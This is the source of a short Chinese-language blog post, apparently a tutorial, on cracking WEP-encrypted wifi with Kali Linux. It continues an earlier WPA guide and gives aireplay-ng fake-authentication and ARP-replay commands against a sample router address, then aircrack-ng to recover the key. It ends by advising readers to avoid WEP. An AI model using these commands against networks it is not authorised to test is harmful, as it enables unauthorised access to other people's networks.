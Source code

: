 ```yaml
---
layout: post
title: Kali Linux破解wifi密码(WEP)
---
```


WEP是无线路由器最初广泛使用的一种加密方式，这种加密方式非常容易被破解。

目前很少有人使用wep加密方式，但是还是会有。

建议：使用WPA/WPA2做为加密方式。

抓包和“破解wpa/wpa2”方法一样，参考其中的前4步；

* [Kali Linux使用Aircrack破解wifi密码(wpa/wpa2)](http://topspeedsnail.com/kali-linux-crack-wifi-wpa/)

### 5) 加快Beacons和Data数据的收集速度

和破解WPA/WPA2不同的是，它只要抓取到足够的Beacons和Data数据就可以破解，理想情况下是100000+。你可以等，也可以使用aireplay加快这个进程。

{% highlight shell %}
# aireplay-ng -1 0 -a C8:3A:35:30:3E:C8 wlan0mon
{% endhighlight %}

{% highlight shell %}
# aireplay-ng -3 -b C8:3A:35:30:3E:C8 wlan0mon
{% endhighlight %}

等到抓取的数据充足，Ctrl+C停止。

### 6) 开始破解：

{% highlight shell %}
# aircrack-ng ~/*.cap
{% endhighlight %}

最后，不要忘了结束无线网卡的监控模式了：

{% highlight shell %}
# airmon-ng stop wlan0mon
{% endhighlight %}

*****

总结：避免使用WEP加密方式。